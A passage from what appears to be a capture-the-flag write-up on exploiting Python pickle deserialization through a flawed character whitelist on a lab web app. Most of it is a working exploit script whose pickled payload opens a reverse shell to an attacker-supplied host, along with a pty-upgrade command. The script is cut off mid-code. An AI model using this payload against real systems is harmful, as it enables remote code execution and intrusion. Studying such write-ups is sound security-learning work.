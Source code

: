 This leads to the following conclusions:

* Serialized Python objects seem to contain the String `p1` anyway (not sure what this means, this would need some more research)
* We can control a part of the string representing the serialized object by using the string somewhere in the `__reduce__` function

Bypassing the check against the character whitelist was easier than expected, because the implementation of the character validation just tests if the character __contains__ any of the whitelisted strings instead of testing for equality. Therefore, it was possible to split the serialized object after the whitelisted string, use the first part for the character, the second part for the quote, calculate the MD5 hash and trigger code execution by issuing a request to `/check`. 

The exploit I wrote for getting a reverse shell (which I upgraded with `python -c "import pty; pty.spawn('/bin/bash');"`, once I was on the system) looks as follows:

```python
import cPickle
import os
import requests
import subprocess
import sys
from hashlib import md5

class Exploit(object):
    def __reduce__(self):
        return (subprocess.Popen, (
            (cmd),
            0, # Bufsize
            None, # exec
            None, #stdin
            None, #stdout
            None, #stderr
            None, #preexec
            False, #close_fds
            True, # shell
            ))


def submit_exploit(char, quote):
    print("[+] Upload exploit...")
    data = { "character" : char, "quote" : quote }
    print("Submitting data: {}".format(data))
    response = requests.post("http://10.10.10.70/submit", data=data)
    print("{} - {}".format(response.status_code, response.text))
    return md5(char + quote).hexdigest()


def exec_exploit(check_id):
    print("[+] Exec exploit...")
    data = { "id" : check_id } 
    response = requests.post("http://10.10.10.70/check", data=data)
    print("{} - {}".format(response.status_code, response.text))


if __name__ == "__main__":
    if len(sys.argv) < 3:
        print("Usage: {} host port".format(sys.argv[0]))
        sys.exit(0)
    host = sys.argv[1]
    port = sys.argv[2]
    cmd = """echo Homer; python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("{}", {}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &""".format(host, port)
    exploit_code = cPickle.dumps(Exploit(), 0)
    modified = exploit_code.split(b"Homer")
```